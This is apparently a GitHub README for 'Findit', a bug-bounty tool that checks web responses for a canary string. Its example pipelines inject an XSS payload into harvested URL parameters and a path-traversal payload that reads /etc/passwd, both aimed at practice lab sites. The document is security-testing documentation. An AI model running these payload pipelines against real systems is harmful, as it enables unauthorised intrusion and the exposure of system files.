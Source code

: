# Findit

Findit is a tool used to parse a canary value from a web request.  
This is useful in bugbounties when you want to find a return value from a list of URL's.  
Think xss, ssti, sqli etc. 


## Install 

```
go install github.com/AssassinUKG/findit@latest
```

## Usage

```
cat URLsFile.txt | findit -c "alert(0)"
```

## Screenshot

![image](https://user-images.githubusercontent.com/5285547/178971597-a6cf6545-dc6b-45e9-b64a-104e902ca1e2.png)


## Example usages

XSS 

```
echo http://testphp.vulnweb.com/ | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|tff|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | findit -c "alert(0)"
```

/etc/passwd
> Example to find /etc/passwd, one one url 

```
echo "https://0aa9003403a40852c028b1270079009b.web-security-academy.net/image?filename=" | qsreplace "../../../../etc/passwd" | findit -c "root:x"
```

![image](https://user-images.githubusercontent.com/5285547/178974785-cbbab50c-bd6e-4a4e-ae7d-822ba3ca46f6.png)

